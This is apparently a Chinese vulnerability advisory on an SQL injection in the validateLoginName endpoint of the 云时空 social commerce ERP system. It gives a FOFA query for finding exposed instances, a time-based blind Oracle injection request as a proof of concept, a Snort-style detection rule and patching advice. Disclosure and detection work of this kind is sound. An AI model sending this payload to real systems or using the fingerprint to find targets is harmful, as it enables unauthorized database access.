

# 云时空社会化商业ERP系统 validateLoginName 存在SQL注入漏洞

云时空社会化商业ERP系统 validateLoginName 存在SQL注入漏洞

# 影响版本

云时空社会化商业ERP系统

# **漏洞状态**

|**漏洞细节**|**漏洞POC**|**漏洞EXP**|**在野利用**|
| :-: | :-: | :-: | :-: |
|**是**|**已公开**|**已公开**|**已知**|

## 风险等级

|**维度**|**评价**|
| :-: | :-: |
|**威胁等级**|**高危**|
|**影响面**|**广**|
|**攻击者价值**|**高**|
|**利用难度**|**低**|

# 漏洞复现

**fofa:**   title=&quot;云时空社会化商业ERP系统&quot;

**POC/EXP：**

**step1**  延时注入

```
GET /sys/user/validateLoginName?loginName=admin'+AND+4563=DBMS_PIPE.RECEIVE_MESSAGE(CHR(65),5)-- HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/157.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate, br
Content-Type: text/xml; charset=utf-8


```

​​

**sonrt规则：**

```
alert http any any -> $HOME_NET any (
    msg:"云时空社会化商业ERP系统 - validateLoginName loginName SQL注入漏洞 (DBMS_PIPE.RECEIVE_MESSAGE时间盲注)";
    flow:to_server,established;
    http.method; content:"GET";
    http.uri;
        content:"/sys/user/validateLoginName"; fast_pattern;
        content:"loginName="; nocase; distance:0;
        content:"DBMS_PIPE"; nocase; distance:0; within:100;
        content:"RECEIVE_MESSAGE"; nocase; distance:0; within:50;
    metadata:
        service http,
        affected_product "云时空社会化商业ERP系统",
        vulnerability_type "SQL Injection (Time-based blind, Oracle)",
        severity "high";
    classtype:web-application-attack;
    sid:1000838;
    rev:1;
    priority:1;
)
```

# 漏洞修复

#### 官方修复

* **升级至安全版本**：联系官方获取针对该漏洞的安全补丁或升级版本。

‍
